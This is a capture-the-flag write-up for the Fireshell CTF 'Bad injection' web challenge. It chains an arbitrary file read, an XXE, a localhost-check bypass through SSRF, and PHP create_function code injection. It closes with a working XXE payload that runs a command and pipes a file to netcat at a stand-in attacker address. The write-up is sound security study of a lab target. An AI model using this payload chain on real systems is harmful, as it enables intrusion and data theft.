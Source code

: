 # Bad injection [ [Fireshell CTF] ](https://ctftime.org/event/727)

## [Enumerating the challenge](#Enumerating-the-challenge)

![index](https://i.imgur.com/vtZ1BiQ.png)

looking at the first 3 pages available **home**, **about** and **contact**, nothing useful is presented to us. But, by accessing the **List** page, we got the icon of an "image
corrupted" next to the loaded image.

By analyzing the source of this page, it is possible to see a passage of parameters:

```
download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

```  

this is the "corrupted image". With these parameters, we can read any file on the server. The requirements are:

* the file path is accurate
* the **hash** parameter must contain the md5 of the searched file.


![listagem-diretorios](https://i.imgur.com/kVAupWz.png)


## Exploration


By scanning the server, we can find the file **Routes.php** inside **/app/** directory, where some http request is required.

    ...
    ...
    ...
    
    Route::set('custom',function(){
      $handler = fopen('php://input','r');
      $data = stream_get_contents($handler);
      if(strlen($data) > 1){
        Custom::Test($data);
      }else{
        Custom::createView('Custom');
      }
    });
    ...
    ...
    ...  


and the **Custom.php** file in **/app/Controllers/** .  

```
    <br />
    <b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
    <?php
    
    class Custom extends Controller{
      public static function Test($string){
          $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
          $test = $root->name;
          echo $test;
      }
    
    }
    
     ?>  
```

using XXE, we can also return files from the server.  


![xxe](https://i.imgur.com/5aKPJVP.png)

## Localhost bypass  


on the **Routes.php** file above mentioned, you can also see the following code:

```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
})
```  

This code verifies if that the request comes from the localhost within a conditional structure. If it does, then call Admin::sort.  

Looking at the **Admin.php** file (also downloaded enum the server), we can see that Admin::sort contains:


```usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));```

which gives us an obvious code injection.  

---

that way, we need to use the XXE to bypass the verification of localhost and then make a request to /Admin, which returns us the remote code execution.

the payload:

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://YOUR_IP/file.xml&order=link.file_get_contents('http://YOUR_IP/'.exec('cat'.chr(32).'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'YOUR_IP'.chr(32).'YOUR_PORT'))">
    ]>
    <root><name>&xxe;</name></root>

* the **file.xml** file must be uploaded to your server, with a valid rss with the route and adminsort for request.  


the output:  


![flag](https://i.imgur.com/FyBD4eq.png)  
**Flag : f#{1_d0nt_kn0w_wh4t_i4m_d01ng}**  
---

* [RSS W3schools](https://www.w3schools.com/xml/xml_rss.asp)
